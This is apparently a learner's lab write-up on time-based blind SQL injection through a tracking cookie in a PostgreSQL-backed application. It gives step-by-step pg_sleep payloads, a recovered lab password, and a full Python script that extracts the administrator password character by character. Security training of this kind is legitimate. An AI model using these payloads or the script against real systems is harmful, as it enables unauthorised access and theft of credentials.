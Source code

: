 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---

**Vulnerable parameter** - tracking cookie

**End Goals:**
- Exploit time-based blind SQLi to output the administrator password
- Login as the administrator user

**Analysis:**

1) Confirm that the parameter is vulnerable to SQLi

```php
' || pg_sleep(10)--
```

![[Pasted image 20240903093858.png]]
- In the bottom right corner you can see it took the app 10 seconds to respond.

2) Confirm that the users table exists in the database

```php
' || (select case when (1=0) then pg_sleep(10) else pg_sleep(-1) end)--
```

```php
' || (select case when (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)--
```

![[Pasted image 20240903094216.png]]

3) Enumerate the password length

```php
' || (select case when (username='administrator' and LENGTH(password)>20) then pg_sleep(10) else pg_sleep(-1) end from users)--
```

-> length of password is 20 characters

4) Enumerate the administrator password

```php
' || (select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from users)--
```

- Looking at the response time it looks like `w` is the first character of the password.

![[Pasted image 20240903094744.png]]

- The room reset which is why the first character n longer matches.

==administrator:73zac50oxohbbcbtb618==

---

**Script:**

- ascii function will iterate through all the alphabet, numbers, and special characters, 32/126
- The substring function extracts the character.
- The ascii function converts it to ascii.
- It checks if it's equal to the ascii number 32/126. If it is, it will wait 10 seconds.

```python
#!/usr/bin/python3

import urllib3
import sys
import requests
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'hhtp': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def sqli_pass(s, url):
	password_extracted = ''
	for i in range(1,21): # Pass length
		for j in range(32,126): # Cycle through ascii
			sqli_payload = "' || (select case when (username='administrator' and ascii(substring(password,%s,1))='%s') then pg_sleep(10) else pg_sleep(-1) end from users)--" %(i,j)
			# Using urllib to encode the payload
			sqli_payload_encoded = urllib.parse.quote(sqli_payload)
			cookies = {'TrackingId': 'vTOoWoRRR6T3UkgS' + sqli_payload_encoded, 'session': 'rIueN69mZTqJa494eGWJMR5pwehHzW70' }
			r = s.get(url, cookies=cookies, verify=False, proxies=proxies )
			if int(r.elapsed.total_seconds()) > 9:
				password_extracted += chr(j)
				sys.stdout.write('\r' + password_extracted)
				sys.stdout.flush()
				break # Break out of the for loop and move to the next character
			else:
				sys.stdout.write('\r' + password_extracted + chr(j))
				sys.stdout.flush()
			
def main():
	if len(sys.argv) != 2:
		print('(+) Usage: %s www.example.com' % sys.argv[0])
		sys.exit(-1)
		
	url = sys.argv[1]
	print('(+) Trying to get the admin password...')
	s = requests.Session()
	sqli_pass(s, url)

if __name__ == '__main__':
	main()
```


---

**Completed:** _10:34 2024-09-03_

